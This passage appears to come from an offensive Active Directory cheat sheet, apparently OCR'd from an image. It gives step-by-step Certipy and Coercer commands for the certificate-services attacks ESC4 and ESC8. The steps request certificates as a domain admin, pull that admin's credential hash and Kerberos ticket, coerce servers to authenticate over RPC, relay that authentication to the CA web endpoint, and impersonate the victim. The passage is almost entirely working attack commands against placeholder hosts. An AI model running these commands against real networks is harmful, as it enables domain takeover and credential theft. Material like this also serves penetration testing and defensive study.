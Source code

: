then request vulnerable template to DA

```
certipy req -u 'billy@foobar.com' \ -p 'REDACTED' \ -dc-ip '10.10.1.100' \ -target 'foobar-CA.foobar.com ' \ -ca 'foobar-CA' \ -template 'ESC4Certificate_FOOBAR' \ -upn 'DA_Dan@foobar.com'
```

Request the credential hash and a Kerberos ticket of the target DA

```
certipy auth -pfx DA_Dan.pfx
```


##### ESC8

Use certipy tool to Enumerate for template configuration

```
certipy find \ -u 'billy@foobar.com' \ -p <PASSWORD> \ -dc-ip <DC_IP> \ -enabled

//Active Directory Certificate Authorities that are vulnerable to ESC8 meet the following conditions: 

- Web Enrollment: Enabled 
- Request Disposition: Issue
```

Configure Certipy to relay the coerced credentials to the ADCS HTTP endpoint `==http://foobar-CA.foobar.com/certsrv/certfnsh.asp==` to request a certificate on behalf of server01.foobar.com using the following command.

```
certipy relay \ -ca foobar-CA.foobar.com \ -template 'DomainComputers'
```

Use Coercer to make Windows machines to authenticate to your machine by calling known vulnerable RPC (Remote Procedure Call) functions.

```
coercer coerce \ -t server01.foobar.com \ -I 10.10.1.100 \ -u 'billy@foobar.com' \ -p <PASSWORD> \ -d foobar.com

// The error outlined in the figure above, `==[+] (ERROR_BAD_NETPATH)==`, This result indicates that the coercion was successful.
```

if you Failed to Authenticate with Certificate, You may need to use the `==-upn==` flag and specify the victim’s name

```
certipy relay \ -ca 'foobar-CA' \ -template 'DomainController' \ -target 'FOOBAR-CA.foobar.com' \ -upn 'DC01$@foobar.com'
```

Impersonate Victim User

```
certipy auth -pfx server01.pfx 
```
